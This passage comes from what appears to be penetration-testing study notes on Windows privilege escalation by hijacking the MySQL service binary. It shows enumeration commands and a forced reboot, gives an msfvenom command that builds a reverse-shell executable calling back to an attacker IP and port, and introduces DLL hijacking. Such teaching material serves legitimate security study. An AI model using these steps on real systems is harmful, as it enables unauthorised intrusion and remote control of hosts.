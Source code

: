 {% tab title="2. StartMode" %}
{% code overflow="wrap" %}
```powershell
> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```
{% endcode %}
{% endtab %}

{% tab title="3. SeShutDownPrivilege" %}
{% code overflow="wrap" %}
```powershell
# The Disabled state only indicates if the privilege is currently enabled for the running process.
> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="4. Reboot" %}
```powershell
# 'r' -> reboot, 't 0' -> in zero seconds
> shutdown /r /t 0 
```
{% endtab %}
{% endtabs %}

> _To restore the original state of the service, we have to delete our binary `mysqld.exe`, restore the backed up original binary, and restart the system._

We can also get a reverse shell by replacing the binary with the following.

{% code overflow="wrap" %}
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.231 LPORT=4444 -f exe > mysqld.exe
```
{% endcode %}

## DLL Hijacking <a href="#dll-hijacking" id="dll-hijacking"></a>

If binary service hijacking isn't possible due to permission restrictions, DLL hijacking, a more **stealthier** method, can be used. DLLs are essential components that provide shared functionality to Windows programs. By **replacing a DLL** that a service depends on, malicious code can be injected while maintaining the service's functionality.
